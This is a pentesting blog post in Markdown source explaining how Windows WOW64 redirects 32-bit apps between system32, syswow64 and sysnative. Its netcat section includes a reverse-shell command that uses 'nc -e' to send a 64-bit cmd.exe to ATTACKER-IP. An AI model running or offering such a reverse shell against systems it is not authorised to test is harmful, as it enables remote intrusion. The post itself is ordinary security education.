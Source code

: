 ```yaml
---
layout: post
published: true
featured: true
title: WOW64 for Pentesters
headline: 'WOW64 '
description: What you need to know as a pen tester.
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

## Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

## File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

> A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

```
32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative
```

> A 64-bit application can also access 32-bit versions directly using \syswow64.

```
64-bit app > 32-bit versions > \syswow64
```

## Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

```
nc -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT
```

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

~~~
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
~~~

## Further Reading

- [WOW64 Implementation](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Fwow64-implementation-details&sa=D&sntz=1&usg=AFQjCNGd8WizV4rztmURfGV_gTqyJ1J-dQ)
- [Running 32-Bit Applications](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Frunning-32-bit-applications&sa=D&sntz=1&usg=AFQjCNGZLoBioW3ekJr23FDLA8eWWBiqaA)
- [Accessing Alternate Registry Views](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Faccessing-an-alternate-registry-view&sa=D&sntz=1&usg=AFQjCNFqcilC4yY0Yz4u-yOfEQxsiKuwzw)


